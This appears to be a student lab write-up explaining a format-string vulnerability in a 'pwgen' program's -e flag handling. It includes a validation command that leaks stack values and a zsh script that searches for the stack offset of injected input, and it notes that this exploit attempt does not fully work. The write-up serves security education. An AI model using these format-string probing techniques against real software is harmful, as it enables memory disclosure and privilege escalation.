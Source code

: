![alt text](image.png)

GenAI Acknowlegements:  
ChatGPT o3-mini-high was used to convert my bash script into the sploit2.c file

## sploit3 (does not fully work)

Attack Approach:

From the pwgen source code we observe that there is a potential format string exploit at the `parse_args()` function.  
When the `-e` flag is parsed to pwgen, we can observe that the `printf(args_message_buffer, args.filename);` under `case('e')` doesn't have any format parameter. This will allow the attacker to insert a format parameter e.g `%x`,`%p`,`%s` to the `ags.filename` parameter at the `-e` flag, and cause the `args.filename` supplied to be printed into a string `args_message_buffer`.  
At this point `args_message_buffer` variable will contain some leaked information about the stack in the form of a string, then this leaked information is exposed to the attacker through the `printf("Entropy file name is: %s", args_message_buffer);` on the next line.

Validation:  
To validate that there is actually a vulnerability, we run
```
pwgen -e"%X.%X.%x"
```
which produces:
```
Entropy file name is: ffffd772.252e7825.12Generated password (length 8): IBMGGdY0
```
There are some memory addresses leaked there! Confirming our vulnerability.

Now we want to find the address at which the string we input is located, for this we can use a bash script:
```
#!/usr/bin/zsh

for i in {1..1000}
do
    # Build the format string: "AAAA%<i>$x"
    format_arg=$(printf "AAAA%%%d\$x" "$i")

    output=$(/usr/local/bin/pwgen -e"$format_arg" 2>&1)

    if echo "$output" | grep -q "41414141"; then
        echo "[*] Found AAAA (41414141) at offset $i."
        echo "    pwgen output: $output"
    fi
done
```